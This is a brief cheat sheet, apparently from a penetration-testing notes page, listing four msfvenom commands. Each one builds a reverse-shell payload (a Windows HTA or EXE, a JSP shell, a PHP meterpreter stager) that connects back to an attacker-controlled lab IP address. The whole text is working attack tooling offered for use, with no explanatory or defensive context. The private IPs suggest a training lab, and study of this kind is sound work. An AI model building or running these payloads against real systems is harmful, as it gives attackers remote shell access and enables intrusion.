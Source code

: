 



# Example commands:
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta`
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe`
* `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f raw > shell.jsp`
* `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.49.65 lport=443 -f raw`
